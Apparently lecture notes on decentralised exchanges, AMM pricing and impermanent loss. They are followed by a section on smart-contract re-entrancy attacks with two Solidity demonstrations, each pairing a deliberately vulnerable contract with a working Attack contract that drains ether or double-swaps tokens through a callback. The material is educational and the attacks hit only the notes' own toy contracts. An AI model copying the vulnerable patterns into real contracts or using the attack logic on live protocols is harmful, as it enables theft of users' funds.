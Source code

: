 [appendix]
# If I don’t have anythig to talk about

== Dexs

=== Notation

* Assume a trading pair
$A:B$
.
* In TradFi (and often also in defi):
** A (first) is called _base_
** B (second) is called _quote_
** The price that 
$A:B$
denotes is actually inverse, so it
represents 
$\frac{B_0}{A_0}$
 for some token amounts
$B_0$
,
$A_0$
.
** E.g. a famous currency pair is
$EUR:USD$
. It is currently
1.07, so for example:
***
$1.07=\frac{1.07}{1}$
***
$1.07=\dfrac{2.14}{2}$
** so 
$1.07\text{ usd} = 1\text{ eur}$
** and 
$2.14 \text{ usd} = 2 \text{ eur}$
* interest sometimes called ROI (”return on investment”) or APY (”annual
percentage yield”) - this one should theoretically be adjusted for one
year, but it is common to hear things like 5% apy per month, where it
actually means 5% roi (interest) per month

=== Taxonomy

Three main types of exchanges:

* orderbook
* amms
* exotic

==== Orderbook

* `makers` post “limit orders" for either side
* `takers` post "limit" _or_ "market" orders
** limit order (exact in):
*** sell 100 EUR for at least 1.09 USD each
** or (exact out):
*** buy 109 USD for at most 1.09 USD each
** market oder (exact in):
*** sell 100 EUR for whatever price
** or (exact out)::
*** buy 109 USD for whatever price
* if there is ever a match, an order is (partially) executed and a trade
happens
* As a result, there cannot be overlapping orders
* If we plot _price_ on the x-axis and _order amount_ on the y-axis, we
get a ``depth chart'':

.Source: https://medium.com/hackernoon/depth-chart-and-its-significance-in-trading-bdbfbbd23d33
image::./assets/depth-chart.png[]

* advantages
* live
** mirrors trad fi
* disadvantages
** in some models, multiple takers could be fighting for the same order
→ high gas costs & no guarantee your transaction will succeed
** front-running, Mev
** price oracle manipulation
* examples:
** EtherDelta
** 0x

==== Amms

The topic of this talk!

==== Exotic exchanges

* E.g. Gnosis DutchX
** keeps the idea of a trading _pair_, but explores different ways of
order-posting.
** in particular, a period is composed of several phases:
*** sellers can post _sell orders_ before an _auction_ begins
*** an _auction_ begins at double the price of the closing price of the
_previous auction_ (tokens are sorted by address)
*** the price falls continuously to 0 over 24 hours
*** buyers post buy orders during this period
*** we have two quantities that are monotonically increasing:
**** the buy volume (by buyers posting buy orders)
**** the value of the buy volume (of the decreasing price of the sell
collateral)
*** as a result, at some point, they will match
*** at that point, close the auction and enable traders to claim their
user tokens
*** notice that price is the same for everyone at the end, so if you
post a buy order, you can only ever get a price better than the current
one
** designed by Martin (Ceo) & Stefan (Cto) at Gnosis, implemented by
Dominik
** never gained a lot of outside traction probably because:
*** people had to wait several hours for the auction to end, so they can
claim their user tokens
*** sellers were afraid that the auction wouldn’t close early, so the
price would be very low
*** BUT as soon as the price reached the market price, there was
arbitrage opportunity for bots
* Gnosis Exchange
** slightly different:
** split into three phases:
*** users post orders (market or limit orders)
*** when order period is up, anyone can post a _solution_ that maximizes
trading volume
**** a solution is a consistent assignment of prices to all token pairs
*** the solution that maximizes volume is accepted, proposer is rewarded
and trades are executed
** the fields involved in this are called discrete optimization and ring
trades
** currently #59 on defipulse

=== Amms

==== History

* proposed by Vitalik B. in a blogpost
* implemented by Hayden Adams as his first software project

==== Overview

* Before and after a swap,
$k = xy = L^2$
* 
$\begin{aligned} (x+Δx)(y+Δy) &= k = xy \\ y+Δy &= \frac{xy}{x+Δx} \\ Δy &= \frac{xy}{x+Δx}-y \\ &= \frac{xy}{x+Δx} -y\frac{x+Δx}{x+Δx}\\ &= \frac{xy-y(x+Δx)}{x+Δx} \\ &= \frac{xy-yx-yΔx}{x+Δx} \\ &= \frac{-yΔx}{x+Δx} \\\end{aligned}$
* Uniswap V1:
** note that the function is called `getInput_Price_`, but it actually
returns the `amount`

[source,python]
----
# @dev Pricing function for converting between ETH and Tokens.
# @param input_amount Amount of ETH or Tokens being sold.
# @param input_reserve Amount of ETH or Tokens (input type) in exchange reserves.
# @param output_reserve Amount of ETH or Tokens (output type) in exchange reserves.
# @return Amount of ETH or Tokens bought.
@private
@constant
def getInputPrice(
    input_amount: uint256, # Δx
    input_reserve: uint256, # x
    output_reserve: uint256 # y
) -> uint256: # Δy
    assert input_reserve > 0 and output_reserve > 0
    input_amount_with_fee: uint256 = input_amount * 997
    numerator: uint256 = input_amount_with_fee * output_reserve # Δx * y
    denominator: uint256 = (input_reserve * 1000) + input_amount_with_fee # x + Δx
    return numerator / denominator # Δy = (Δx * y) / (x + Δx)
----

* derivation of fee:
* 
$\begin{aligned} \frac{-yΔx}{x+Δx} \quad &≈ \frac{-y(\frac{997}{1000}Δx)}{x+(\frac{997}{1000}Δx)} \quad \Big| * \frac{1000}{1000}\\ \quad &= \frac{-y(997Δx)}{1000x+997Δx}\end{aligned}$

.Source: https://www.coindesk.com/learn/2021/08/20/what-is-an-automated-market-maker/
image::./assets/amm.webp[]

* slope (gradient) of curve is
$frac{\Delta y}{\Delta x}$
and can be thought of as the current price

==== Impermanent loss

* Suppose the market price
$P_m$
is different from the Amm
price
$P = \frac{y}{x}$
.
* Bots have an incentive to make arbitrage profit.

*Theory*

* Suppose Alice is an LP in an 
$X:Y$
 Amm with initial
reserves (stocks)
$x, y$
.
**
$Y$
is the quote tokens
* Suppose she has `s` share of the total supply, when the market price
changes
* If she held only 
$X$,
she would have
**
$2sxP_m$
* If she held only
$Y$
, she would have
**
$2sy$
* on average, she would have
** 
$sxP_m + sy$
* However, if she tokens in an Amm:
** 
$\begin{aligned}xy&=x_1y_1 \\ &= \frac{y_1}{P_m}y_1 \\ &= \frac{y_1^2}{P_m}\end{aligned}$
** 
$\sqrt{xyP_m}=y_1$
** hence she would have 
$s \sqrt{xyP_m}$
of 
[$Y$
** she would have the same value of
$X$
 tokens
** hence she would have
*** 
$2s\sqrt{P_mxy}$
* We have
** 
$\frac{xP_m + y}{2}>=\sqrt{P_mxy}$
(Arithmetic-Geometric
mean for 2 variables)
* with equality iff
$xP_m = y$
, or
$P_m=P$
* Hence Amms are not good for assets that have an expected tendency to
go up or down
* Furthermore, the fees in Amms need to cover `impermanent loss' for it
to offer a good roi

==== Taxonomy

* generic
** uniswap v1, v2, v3
* specialized
** for trading stablecoins
*** curve v1, v2
** for trading options
*** the issue with options is that they _decay_ over time as we approach
the expiry date and there is less expected volatility, so their price is
expected to go down over time, so generic Amms would provide too much
impermanent loss.
*** examples:
**** siren
**** opyn

==== Why are Amms not used in trad fi?

* Amms require a lot of stock, and large stock requires a lot of trust
to place such large volume onto an exchange

==== Difference between major Amms:

* Uniswap v1
** Vyper
** No reliable price oracle
** eth to token
** .transferFrom pattern
* Uniswap v2
** Vyper → Solidity
** `exchange` → `Pair`
** token to token pairs
** Better price oracle
** Uses .transfer, .swap pattern
* Uniswap v3
** `Pair` → `Pool`
** Can post orders that are only active in a certain price range
** Better price oracle
** Uses .callback patern
** Originally Amms were thought to be great for beginner / retail
(non-professional) traders
*** since you can just put money and it accrues passive income
*** however with Uv3, Amms became as difficult as Orderbooks
**** if your range is too low or too high, you won’t get any fees
**** if you range is too wide, you may have an opportunity cost (i.e.,
not making as much ROI as you would by having a narrower range)
* Balancer v1
** Extends
$xy = k$
to 
$x_0x_1...x_n=k$
* Balance v2
** Not sure
* Curve v1
** ``Damping factor'' around price 1
** There is a whitepaper where they acutally call it ``Stableswap''

.Source: https://atulagarwal.dev/posts/curveamm/stableswap/
image::./assets/curve.png[]

* Curve v2
** Not sure

== Re-entrancy attacks

=== Overview

____
A re-entrancy vulnerability might occur when an external call separates
two code blocks, and somewhere on the network there is code that is
contingent on both blocks executing without interruption.
____

____
A special case of this is when the re-entrancy is the same function.
However, it could be a different function, or a different contract, or
even a different protocol altogether. Whenever there exists logic on the
network that is contingent on the second code block, it could be
possible to utilize a code injection to violate their atomicity.
____

____
One way to prevent re-entrancies is to use the
checks-effects-interactions pattern. However, this is not always
possible. A function’s semantics may include:

* state mutations to the current contract based on external
interactions,
* multiple external interactions (code elsewhere may depend the
atomicity of these multiple interactions).
____

____
Another way to protect against reentrancies is by introducing a
re-entrancy lock. A re-entrancy lock will only work if:
____

____
[arabic]
. It protects _all_ public entrypoints of a contract. It is not enough
to protect just _publicly-accessible_ functions. An `onlyOwner` function
may, for example, transfer tokens, and those may call callbacks. If that
is the case, the atomicity of `onlyOwner` function may be violated.
. It protects _all_ public entrypoints of _all_ contracts. Other modules
may rely on the contract’s state. If an attacker calls these modules,
they may perform a _dirty read_.
. The lock can be read by _any_ network contract. Similarly, other
projects may rely on the contract’s state.
____

____
Note that it is only necessary to protect mutating functions. View
functions might give incorrect results if injected, but they will be
relevant only if called by a function that is non-view.
____

=== Taxonomy: by type of asset that gives rise to new execution context

* no asset
** e.g. when you just do a message call
* ether (The DAO)
* tokens
** malicious tokens (provided as user input)
*** e.g. Origin Protocol hack
** benevolent tokens
*** can be categorized:
**** provided by user or admin
**** external tokens or native tokens
*** have to be ``callback'' tokens - ERC 223, 721 (nft), 777, 1155
*** e.g. Uniswap V1 http://lendf.me[lendf.me] hack
*** Siren ERC1155 hack

=== Taxonomy: by what gets called in the re-entrancy:

* same function
* same contract
* different contract

=== Best way to protect against re-entrancies

System-wide re-entrancy lock:

____
Add a system-wide re-entrancy lock in AddressesProvider by declaring a
state variable representing a lock. When any mutating function in the
system is called, there will be a switch on the caller (`msg.sender`):

* if it is any contract in the system, the call will proceed,
* if it is not and the lock has been acquired, the call will revert,
* if it is not any contract in the system and the lock has not been
acquired, it will be acquired.
____

____
This will ensure the project is resilient against the re-entrancy
attacks outlined above.
____

=== Example 1: Ether

[source,solidity]
----
contract C {
    mapping (address => uint) public balances;

    event LogUint(string s, uint x);

    constructor() payable {
        // this is just for ease of demonstration
        assert (msg.value == 9 ether); // ether is a scalar quantity, 1 ether == 1e18.
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        emit LogUint("C.withdraw: balances[msg.sender]", balances[msg.sender]);
        (bool success,) = msg.sender.call{value: balances[msg.sender]}("");
        require(success);
        emit LogUint("C.withdraw: address(this).balance", address(this).balance);
        balances[msg.sender] = 0;
    }
}

contract Attack {
    C public c;

    event LogUint(string s, uint x);

    constructor() payable {
        assert (msg.value == 10 ether);
        // This would normally be deployed somewhere else,
        // but adding it here for simplicity.
        c = new C{value: 9 ether}();
    }

    function run() public {
        c.deposit{value: 1 ether}();
        c.withdraw();
        emit LogUint("Attack.run: address(this).balance", address(this).balance);
    }

    receive() payable external {
        if (gasleft() >= 40000 && address(c).balance >= 1 ether) {
            c.withdraw();
        }
    }
}
----

=== Example 2: Tokens

image::./assets/weekly-token-reentrancy.png

==== Setup:

* each pool has 100 tokens
* attacker has 10 tokens of each

==== Benevolent:

* get 9.0̅9̅ token1 for 10 token0
* get 8.26 token1 for 10 token2


$$
\begin{aligned}\Delta y &= \frac{-100*10}{100+10} \\ &= \frac{-1000}{110} \\ &= -9.\bar{09}\end{aligned}
$$


$$
\begin{aligned} \Delta y &= \frac{-90.\bar{90}*10}{100+10} \\ &= \frac{-909.\bar{09}}{110} \\ &\approx -8.26 \end{aligned}
$$

==== Malicious:

* first swap 10 token0 for 9.0̅9̅ token1
* re-enter after 10 token0 have been moved, but before 9.0̅9̅ token1 have
been moved
* hence pair12 still sees balances as (100, 100), and we can get 9.0̅9̅
token1 again for 10 token2

[source,solidity]
----
pragma solidity 0.8.12;

interface IReceiver {
    // function receiveTokens(address from, uint amount) external;
    function tokensTransferred(address to, uint amount) external;
}

contract Token {
    mapping (address => uint256) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;

    event Transfer(address from, address to, uint256 amount);
    event LogBool(string s, bool x);

    constructor() {
        balanceOf[msg.sender] = 110e18;
    }

    function transfer(address to, uint256 amount) public {
        // Effects
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        // note: all these are equivalent (yes, I tested it in Remix).
        // bytes memory b = abi.encodeWithSelector(IReceiver.receiveTokens.selector, msg.sender, amount);
        // bytes memory b = abi.encodeWithSignature("receiveTokens(address,uint256)", msg.sender, amount);
        // bytes memory b = concat(
        //     abi.encodePacked(bytes4(IReceiver.receiveTokens.selector)),
        //     abi.encode(msg.sender, amount)
        // );
        emit Transfer(msg.sender, to, amount / 1e18);
        // Interactions
        // bytes memory b = abi.encodeCall(IReceiver.tokensTransferred, (to, amount));
        // For external accounts `to`, this will silently succeed anyway
        // For contracts `to`, don't require that they implement `receiveTokens` (and not throw).
        // (bool success,) = to.call(b);
    }

    function approve(address spender, uint amount) public {
        allowance[msg.sender][spender] = amount;
    }

    function transferFrom(address from, address to, uint amount) public {
        // Effects
        allowance[from][msg.sender] -= amount;
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        emit Transfer(from, to, amount / 1e18);
        // Interactions
        bytes memory b = abi.encodeCall(IReceiver.tokensTransferred, (to, amount));
        emit LogBool("Token.transferFrom: calling from", true);
        (bool success,) = from.call(b);
        emit LogBool("Token.transferFrom: after call, success", success);
    }

    function concat(bytes memory b1, bytes memory b2) public pure returns (bytes memory) {
        return abi.encodePacked(b1, b2);
    }
}

contract Pool {
    Token public token;
    address public d;

    modifier onlyD() {
        if (msg.sender != d) revert("You shall not enter");
        _;
    }

    constructor(Token _token) {
        token = _token;
        d = msg.sender;
    }

    function setMaxPossibleApproval(address pair) public onlyD {
        token.approve(pair, type(uint).max);
    }
}

contract Pair {
    Pool   public pool0;
    Pool   public pool1;
    string public meme;
    bool   public reentered; // = false

    event LogUint(string s, uint x);

    modifier reentrancyGuard() {
        if (reentered) revert("You shall not enter");
        reentered = true;
        _;
        reentered = false;
    }
    constructor(
        Pool _pool0,
        Pool _pool1
    ) {
        pool0 = _pool0;
        pool1 = _pool1;
    }

    function swap(
        uint256 amountFromUser,
        bool token1ForUser
    ) public reentrancyGuard {
        emit LogUint("Pair.swap called: amountFromUser", amountFromUser / 1e18);
        // Checks
        Pool pool_to_user     = token1ForUser ? pool1 : pool0;
        Pool pool_from_user   = token1ForUser ? pool0 : pool1;
        Token token_to_user   = pool_to_user.token();
        Token token_from_user = pool_from_user.token();
        uint amount_to_user   = getDeltaY(
            /*      x = */ token_from_user.balanceOf(address(pool_from_user)),
            /*      y = */ token_to_user  .balanceOf(address(pool_to_user  )),
            /* deltaX = */ amountFromUser
        );
        // Interactions
        token_from_user.transferFrom(
            /*   from = */ msg.sender,
            /*     to = */ address(pool_from_user),
            /* amount = */ amountFromUser
        );
        token_to_user.transferFrom(
            /*   from = */ address(pool_to_user),
            /*     to = */ msg.sender,
            /* amount = */ amount_to_user
        );
        emit LogUint("Pair.swap exiting: amount_to_user", amount_to_user / 1e18);
    }

    /// We have:
    /// Δy = (-yΔx)/(x+Δx)
    /// For full derivation, see the attached equation.
    function getDeltaY(
        uint x,
        uint y,
        uint deltaX
    ) public pure returns (uint256 deltaY) {
        uint num = y * deltaX;
        uint den = x + deltaX;
        deltaY = num / den;
    }

}

contract Deploy {
    Token  public token0;
    Token  public token1;
    Token  public token2;
    Pool  public pool0;
    Pool  public pool1;
    Pool  public pool2;
    Pair  public pair01;
    Pair  public pair12;

    constructor() {
        token0 = new Token();
        token1 = new Token();
        token2 = new Token();
    
        token0.transfer(msg.sender, 10e18);
        token1.transfer(msg.sender, 10e18);
        token2.transfer(msg.sender, 10e18);
    
        pool0  = new Pool(token0);
        pool1  = new Pool(token1);
        pool2  = new Pool(token2);

        token0.transfer(address(pool0), 100e18);
        token1.transfer(address(pool1), 100e18);
        token2.transfer(address(pool2), 100e18);
    
        pair01 = new Pair(pool0, pool1);
        pair12 = new Pair(pool1, pool2);

        pool0.setMaxPossibleApproval(address(pair01));
        pool1.setMaxPossibleApproval(address(pair01));
        pool1.setMaxPossibleApproval(address(pair12));
        pool2.setMaxPossibleApproval(address(pair12));
    }
}
----

[source,solidity]
----
contract Attack {
    Deploy public d;

    event LogUint(string s, uint x);
    event LogAddress(string s, address a);

    constructor() {
        d = new Deploy();
        // Each pool has 100 tokens, user (attacker) has 10 tokens of each 
    }

    function run_benevolent() public {
        log_addresses_in_system();
        d.token0().approve(address(d.pair01()), 10e18);
        d.pair01().swap(
            /*        amount = */ 10e18,
            /* token1ForUser = */ true
        );
        //      token0.balanceOf(this)  ==   0            (10 less)
        //      token0.balanceOf(pool0) == 110            (10 more)
        // 19 < token1.balanceOf(this)   <  20          (9.0̅9̅ more)
        // 90 < token1.balanceOf(pool1)  <  91          (9.0̅9̅ less)
        assert(d.token0().balanceOf(address(d.pool0())) == 110e18);
        assert(d.token0().balanceOf(address(this))      ==      0);
        assert(d.token1().balanceOf(address(d.pool1()))  >  90e18);
        assert(d.token1().balanceOf(address(d.pool1()))  <  91e18);
        assert(d.token1().balanceOf(address(this))       >  19e18);
        assert(d.token1().balanceOf(address(this))       <  20e18);

        // -------------------------------------------------------

        d.token2().approve(address(d.pair12()), 10e18);
        d.pair12().swap(
            /*        amount = */ 10e18,
            /* token1ForUser = */ false
        );

        //      token2.balanceOf(this)  ==   0            (10 less)
        //      token2.balanceOf(pool0) == 110            (10 more)
        // 27 < token1.balanceOf(this)   <  28          (8.26 more)
        // 82 < token1.balanceOf(pool1)  <  83          (8.26 less)
        assert(d.token2().balanceOf(address(d.pool2())) == 110e18);
        assert(d.token2().balanceOf(address(this))      ==      0);
        assert(d.token1().balanceOf(address(d.pool1()))  >  82e18);
        assert(d.token1().balanceOf(address(d.pool1()))  <  83e18);
        assert(d.token1().balanceOf(address(this))       >  27e18);
        assert(d.token1().balanceOf(address(this))       <  28e18);
    }

    function run_malicious() public {
        log_addresses_in_system();
        d.token0().approve(address(d.pair01()), 10e18);
        d.pair01().swap(
            /*        amount = */ 10e18,
            /* token1ForUser = */ true
            // Re-entrancy occurs here
        );

        //      token0.balanceOf(this)  ==   0            (10 less)
        //      token0.balanceOf(pool0) == 110            (10 more)
        //      token2.balanceOf(this)  ==   0            (10 less)
        //      token2.balanceOf(pool0) == 110            (10 more)
        // 28 < token1.balanceOf(this)   <  29          (18.1̅8̅ more)
        // 81 < token1.balanceOf(pool1)  <  82          (18.1̅8̅ less)
        assert(d.token0().balanceOf(address(d.pool0())) == 110e18);
        assert(d.token0().balanceOf(address(this))      ==      0);
        assert(d.token2().balanceOf(address(d.pool2())) == 110e18);
        assert(d.token2().balanceOf(address(this))      ==      0);
        assert(d.token1().balanceOf(address(d.pool1()))  >  81e18);
        assert(d.token1().balanceOf(address(d.pool1()))  <  82e18);
        assert(d.token1().balanceOf(address(this))       >  28e18);
        assert(d.token1().balanceOf(address(this))       <  29e18);
    }

    function log_addresses_in_system() public {
        emit LogAddress("attack", address(this));
        emit LogAddress("deploy", address(d));
        emit LogAddress("token0", address(d.token0()));
        emit LogAddress("token1", address(d.token1()));
        emit LogAddress("token2", address(d.token2()));
        emit LogAddress("pool0",  address(d.pool0()));
        emit LogAddress("pool1",  address(d.pool1()));
        emit LogAddress("pool2",  address(d.pool2()));
        emit LogAddress("pair01", address(d.pair01()));
        emit LogAddress("pair12", address(d.pair12()));
    }

    function tokensTransferred(address to, uint amount) public {
        emit LogUint("tokensTransferred called: amount", amount / 1e18);
        d.token2().approve(address(d.pair12()), 10e18);
        d.pair12().swap(
            /*        amount = */ 10e18,
            /* token1ForUser = */ false
        );
    }
}
----